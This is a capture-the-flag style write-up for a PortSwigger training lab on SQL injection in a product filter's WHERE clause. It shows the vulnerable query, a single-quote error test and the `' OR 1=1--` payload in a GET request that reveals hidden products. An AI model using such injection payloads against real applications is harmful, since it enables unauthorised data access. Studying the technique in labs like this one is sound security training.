


# Write-up: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

Lab-Link: <https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data>  
Difficulty: APPRENTICE  
Python script:  

## Lab description



## Query

The query used in the lab is

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

## Steps

### Enumeration

I checked out how the filter works using interceptor and found out that the request is like
`GET /filter?category=Corporate+gifts HTTP/2`
which showed 3 products

### Confirm Vurnerability

I added a single quote to the category parameter and got an error message. This confirms the vulnerability.

### Exploit

To show all products, we need to make sure the request is always true. I used `category=' OR 1=1--` to get all products.
Url is like
`GET /filter?category=Corporate+gifts'+OR+1=1-- HTTP/2`

The result query is like
```sql
SELECT * FROM products WHERE category = 'Corporate gifts' OR 1=1-- AND released = 1
```

This displays all products, including the hidden one and hence solves the lab.

